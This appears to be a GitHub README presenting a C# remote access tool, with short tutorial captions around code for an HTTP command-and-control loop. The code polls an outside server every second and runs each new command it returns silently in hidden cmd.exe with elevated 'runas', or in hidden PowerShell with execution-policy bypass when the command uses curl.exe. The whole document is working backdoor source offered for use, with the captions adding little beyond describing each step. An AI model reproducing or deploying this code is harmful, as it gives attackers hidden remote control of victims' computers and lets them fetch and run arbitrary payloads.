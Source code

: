 # http-command-and-control Remote Access Tool (RAT) using c# >

<b>Let's understand it.</b>
<b>This will get the command from online web server.
</b>
                          new WebClient().DownloadString("https://r.significantbyte.com/go.php");

<b>Run command in device.</b>
                            Process cmd = new Process();
                            cmd.StartInfo.FileName = "cmd.exe";
                            cmd.StartInfo.RedirectStandardInput = true;
                            cmd.StartInfo.RedirectStandardOutput = true;
                            cmd.StartInfo.CreateNoWindow = true;
                            cmd.StartInfo.UseShellExecute = false;
                            cmd.StartInfo.Verb = "runas";
                            cmd.Start();
                            cmd.StandardInput.WriteLine(json);
                            
  
<b>Lets wait for 1 second</b>
                            Thread.Sleep(1000);
<b>Now lets combine the whole idea. Get the command and run cmd in while loop</b>
 while (chk == 0)
            {
                try
                {
                    json = new WebClient().DownloadString("https://r.significantbyte.com/go.php");
                    if (json != oldjson)
                    {

                        if (json.Contains("curl.exe"))
                        {
                            System.Diagnostics.Process.Start("CMD.exe", "/C powershell -w h -ep bypass " + json);
                        }
                        else
                        {
                            Process cmd = new Process();
                            cmd.StartInfo.FileName = "cmd.exe";
                            cmd.StartInfo.RedirectStandardInput = true;
                            cmd.StartInfo.RedirectStandardOutput = true;
                            cmd.StartInfo.CreateNoWindow = true;
                            cmd.StartInfo.UseShellExecute = false;

                            cmd.StartInfo.Verb = "runas";
                            cmd.Start();

                            cmd.StandardInput.WriteLine(json);
                        }

                        Console.WriteLine("diff result json=" + json + "old=" + oldjson);
                    }
                    else
                    {
                        Console.WriteLine("same result json=" + json + "old=" + oldjson);
                    }


                    oldjson = json;
                }
                catch (Exception e)
                {
                    Console.WriteLine("Connection not stable.");
                }
                Thread.Sleep(1000);

            }
